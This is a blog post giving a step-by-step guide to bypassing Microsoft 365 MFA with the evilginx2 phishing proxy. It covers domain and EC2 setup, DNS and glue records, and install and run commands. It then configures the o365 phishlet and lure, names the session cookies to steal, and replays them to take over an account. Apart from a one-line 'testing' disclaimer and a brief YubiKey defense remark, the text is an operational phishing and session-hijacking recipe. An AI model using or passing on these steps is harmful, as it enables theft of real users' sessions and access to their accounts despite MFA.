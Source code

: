 ```yaml
---
description: >-
  In that blog I will try to explain which implementation that I have done in
  order to bypass MFA in Azure.
---
```


# Bypassing MFA with Evilginx2

### Take a domain name in Freenom.&#x20;

[freenom.com ](https://freenom.com)is giving you great opportunity to take free domain names so just a grab one there.&#x20;

After taking a domain name. You need to create EC2 instance in your AWS accoount. Of course you can use some virtual private server provider or some hosting provider but for me it was easy to configure that in AWS.&#x20;

I have configured AWS ubuntu in my account.&#x20;

And uploaded to there evilginx2 phishing tool. For evilginx2 tool worked properly you should configure DNS records there, without configuring these records it will be hard to get tokens of your victims.&#x20;

As the first step you need to install go in your instance.&#x20;

```
apt install golang-go
go get -u github.com/kgretzky/evilginx2
sudo apt-get -y install git make
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
make install
```

&#x20;Now you should not run evilginx because we didn't configure our DNS.&#x20;

Let's turn back to our freenom.com page and manage our domain.&#x20;

![](<../../.gitbook/assets/image (4).png>)



From that section go to DNS configuration place.&#x20;

![](<../../.gitbook/assets/image (5).png>)

Then Manage DNS section.&#x20;

![](<../../.gitbook/assets/image (2) (2).png>)

Put there the subdomains that you want to use. Actually, it depends on which phishlets you will use. But in my case I have used o365 phishlet so, I have added to there `account` and `login`. &#x20;

And your EC2 instance public IP that you will use.&#x20;

After adding these we need to implement our nameserver glue records.&#x20;

![](<../../.gitbook/assets/image (3) (1).png>)

From that section you need to put your domain name records.&#x20;

![](<../../.gitbook/assets/image (1) (1).png>)



In my case, I have added my domain name record there and my public EC2 instance IP.&#x20;

yeah after that comes waiting part because changing these records to be implemented in the system takes time.&#x20;

After adding these sections go to your EC2 instance and connect via the terminal.&#x20;

Probably you will have problem with DNS, HTTPS, HTTP connections. So you need to be aware these are open to all IPs with your security groups.&#x20;

I have done some DNS implementations in my AWS EC2 instance. Maybe that will not work for you case but in case you will have a problem when you run evilginx. Like `Failed to conned port 53` . Here is the solution that worked for me.&#x20;

```
 sudo rm /etc/resolv.conf
 ln -s /run/systemd/resolve/resolv.conf /etc/resolv.conf
 
 systemctl stop systemd-resolved.service
```

in your /etc/hosts file add that section.&#x20;

```
internal-ip yourdomain.com
```

After these configurations run your evilginx with debug because I was not able to configure any phishlet to save tokens.&#x20;



run these commands for running evilginx in debug mode.&#x20;

```
evilginx -debug
```



in evilginx2 run these command,&#x20;

```
config domain yourdomain.com
config ip a.b.c.d

blacklist unauth

phishlets enable o365
lures create o365
lures edit #putIDthere redirect_url https://portal.azure.com
lures get-url #putIDthere

```

After getting the URL from evilginx open an incognito browser and test.&#x20;

In my case, evilginx was not able to save tokens of my victims(my account here). But in debug mode, I was able to see these tokens.&#x20;



For o365 phishlet, you need to sniff these tokens&#x20;

```
ESTSAUTHPERSISTENT
ESTSAUTH
ESTSAUTHLIGHT
SignInStateCookie
```

![](<../../.gitbook/assets/image (2) (1).png>)



After taking these values go to your browser and with cookie editor extension change these while trying to login [https://www.office.com/?auth=2](https://www.office.com/?auth=2) and refresh the page.&#x20;

You are in.&#x20;

```
Please use it for testing purposes. 
```



On defending side, By using yubikey it is possible to stop these kinds of phishing attacks. During phishing, user will see that kind of a screen if he/she using the yubikey.&#x20;



![](../../.gitbook/assets/image.png)&#x20;

And later, it will throw an error like that shown below.&#x20;

![](<../../.gitbook/assets/image (10).png>)
